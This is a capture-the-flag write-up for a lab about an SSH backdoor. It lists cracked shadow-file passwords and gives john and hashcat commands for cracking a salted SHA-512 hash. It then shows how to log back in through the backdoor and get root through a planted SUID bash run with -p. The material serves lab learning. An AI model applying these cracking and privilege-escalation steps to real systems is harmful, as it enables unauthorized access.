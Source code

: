 ***

Author : dxWiz

Date : 12 Mar 2022 11:39 PM

***



# Task 1 Forensics - Analyse the PCAP 

Just open up the .pcap file do the necessary analysis to get the answer

carcking the the hashes is relatively easy with john + fasttrack wordlist (/usr/share/wordlists/fasttrack.txt)


4. Using the fasttrack wordlist, how many of the system passwords were crackable?

        paradox:secuirty3:18464:0:99999:7:::
        szymex:abcd123:18464:0:99999:7:::
        bee:secret12:18464:0:99999:7:::
        muirland:1qaz2wsx:18464:0:99999:7:::


# Task 2 Research - Analyse the code 

Study the source code from https://github.com/NinjaJc01/ssh-backdoor

***

To crack the salted hash with john and rockyou.txt
  
    john --format=dynamic_82 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 


to list dynamic format :

    john --list=subformats
    
Format = dynamic_82  type = dynamic_82: sha512($p.$s)


hash.txt content
    
    6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed$1c362db832f3f864c8c2fe05f2002a05
    

note : salt is separated by $ 

[Reference](https://miloserdov.org/?p=5960#66)

***


To crack the salted hash with hashcat and rockyou.txt
    
    ./hashcat 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 rockyou.txt -m 1710

note : salt is separated by colon

***

Additional Studies

At the end of the article in miloserdov.org, it is mentioned that when the salt has special characters in it, converting salt to hexadecimal salt is to be done with a program called raw2dyna.

    eg: raw2dyna -2h='STRING'


raw2dyna is a program that convert ASCII char into equivalent hexadecimal value. Please refer to the ASCII to HEX chart for actual value verification. 



# Task 3 Attack - Get back in! 

Task given : to hack back into the system with the following command

        ssh james@$IP -p 2222
        
if you see the following error

        Unable to negotiate with $IP port 2222: no matching host key type found. Their offer: ssh-rsa
        
you have to add a few lines in ~/.ssh/config with your favorite editor

        Host $IP 
                HostKeyAlgorithms=+ssh-rsa

It is not hard to get the user.txt flag, try to look into james folder

In order to get root.txt flag, first do a search for any possible SUID misconfigured file with the following command

        find / -perm /u=s -type f 2>/dev/null
        
and the search result will return a list of following

        .
        .
        .
        /bin/mount
        /bin/fusermount
        /bin/su
        /bin/ping
        /bin/umount
        /home/james/.suid_bash

The last entry is very interesting, run the file with -p as suggested by [GTFOBins](https://gtfobins.github.io/#) under SUID section and also by refering to the manual of bash with -p

        If the -p option is supplied at invocation, the startup behavior is the same, but the  ef‐
        fective user id is not reset.
        
        james@overpass-production:/home/james$ ./.suid_bash -p
        .suid_bash-4.4# 

Get the root.txt in root folder.

# Congratulations!
